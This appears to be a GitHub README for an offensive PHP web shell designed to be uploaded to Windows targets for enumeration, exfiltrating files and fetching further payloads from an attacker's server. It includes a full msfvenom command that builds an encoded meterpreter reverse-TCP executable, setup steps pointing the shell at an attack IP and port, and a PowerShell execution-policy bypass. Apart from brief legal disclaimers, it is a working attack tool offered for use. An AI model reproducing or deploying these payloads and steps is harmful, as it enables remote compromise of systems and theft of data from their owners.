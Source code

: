 <h1> The Not-So Simple PHP Command Shell</h1>
<img src="/img/nsscmdshell.png" />
<h2>Foreword:</h2>
<blockquote>Please note that gaining access to the target is beyond the scope of this writing and your responsibility to establish in a manner consistent with established law.  This tool is intended to be used for on target enumeration to gather and exfiltrate information and then to upload and execute tools such as netcat or msvenom payload for further access to the target. The following websites provide training resources and practice scenarios and are excellent resources for learning such skills:
		<ul>
			<li>https://www.hackthebox.eu/</li>
			<li>https://tryhackme.com/</li>
	    </ul>
		  </blockquote>
<p>Automates or simplifies many on target functions. Designed for windows targets. It isn't pretty, but it works as intended. I have included an assortment of common windows enumeration and escalation tools.  To generate your own msfvenom payload:<br> 
venom.exe : <code>sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=(ATTACKBOXIP) LPORT=(ATTACBOXPORT) -e x64/shikata_ga_nai -f exe -o venom.exe</code>
</p>

<img src="https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshelluse.gif" />
<h2>Automates or simplifies many on target enumeration functions. Including:</h2>
<ul>
<li>Simple system commands</li>
<li>File upload/download options</li>
<li>simple user manipulations (on compatible targets with sufficient privileges)</li>
<li>One click user info/ user permissions info</li>
<li>One click systeminfo</li>
<li>One Click processes list</li>
<li>And many more...</li>
</ul>

<h2>How to use it</h2>
<p>First, change the variables, "$attackip" and "$attackport" to the appropriate values for YOUR attack machine:</p>
<code>$attackip = "10.0.2.6";</code><br>
<code>$attackport = "8000";</code>

<p>Now get "nsscmdshell.php" onto the target < - DISCLAIMER (in a manner consistent with applicable laws - and within scope of a written contract where required) - >.</p>

<p>Once the nsscmdshell is uploaded, typing valid commands into the command input or clicking the various cmd buttons will display the results in a windows command prompt style below the nsscmdshell interface.</p>
<img src="https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-output.png" />

<h6>The upload and download options are self explanatory, but just to avoid any confusion: </h6>>

<p>If using the select field, choose your file and click "upload". Files linked in the select field options need to be present at the web root at the ip address and port in lines 10 and 11 of nsscmdshell.php.<sup>1</sup> </p>

<p>If using the open file dialog option, only files present at the ip address and port specified can be uploaded.</p>

<p>For the download option, simply enter the filename to be downloaded from the working directory of the target machine. Please note that files which can be managed by your browser will be opened in your browser - i.e., entering a text or html file to be downloaded will instead open the file in the web browser.<br>   
Example usage: run jaws-enum.ps1 - output to jaws.txt <code>powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename jaws.txt</code>, then download the output file to your attack machine for later close examination.<br><br>
<img src="https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-jaws.png" />
</p>

<p>The quick command buttons each have a title attribute with a brief description of the function - hover over the button to see the description.<br>
<img src="https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-title-desc.png" /><br>
It goes without saying that the effectiveness of the various functions depends on the target os's support of the functions and the current user's permissions. This was designed for and tested on Windows XP - Windows 8.1 with very limited testing on Win10.</p> 

*** Got "Warning: file_get_contents(http://XX.XX.XX.XX:XXXX/filename.ext):failed to open stream: No connetion could be made...." error? 
 Two possible causes:</p>
 <ol>
 <li> You didn't set the variables, <code>$attackip</code> and <code>$attackport</code> to your machine. Fix: ifconfig your ip, and set in nsscmdshell.php lines 10 and 11.</li> 
 <li> The files are not available on the defined server or port, or there is no server running on the defined port. Fix: <code>python3 -m http.server XXXX</code> in a directory containing the files you're attempting to upload.</li>
 </ol>
<h3>Footnotes:</h3> 
<p><sub>1</sub> I generally cd into my "windowstools" folder and start a simple http server:<br>
<code>cd windowstools</code><br>
<code>python3 -m http.server 8000</code>.<br>
<br>
<img src="https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-listening.png" /></p>
<img src="http://www.hackthebox.eu/badge/image/476578" alt="Hack The Box">